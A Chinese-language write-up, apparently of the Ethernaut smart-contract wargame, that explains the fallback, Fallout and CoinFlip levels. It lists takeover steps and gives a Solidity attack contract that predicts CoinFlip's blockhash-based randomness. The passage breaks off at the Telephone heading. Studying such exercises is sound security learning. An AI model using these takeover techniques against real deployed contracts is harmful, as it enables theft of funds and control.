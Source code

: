 ## 01-fallback

receive 中设置了 owner,很容易被别人以很少的转账操作转移 owner 主权，进行 withdraw
**通过方法**

- 调用 contribute()转账 1wei
- 然后直接转账 1wei 获取控制权

## 02-fallout

0.6.0 版本中，function constractName 作为构造函数，并且函数名拼错，那么就可以在外部直接调用构造函数，有风险  
**通过方法**

- 直接调用 fal1out()获取控制权

## 03-flipCoin

是用区块链的参数来进行随机数构造，那么在合约外部，就可以很容易的使用相同参数进行破解  
**通过方法**
调用 10 次 flip()即可

```solidity
//SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./FlipCoin.sol";

contract Hack {
    CoinFlip private immutable target;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target) {
        target = CoinFlip(_target);
    }

    function _guess() private view returns(bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }

    function flip() public {
        bool guess = _guess();
        bool res = target.flip(guess);
        require(res, "guess fail");
    }
}
```

## 04-Telephone
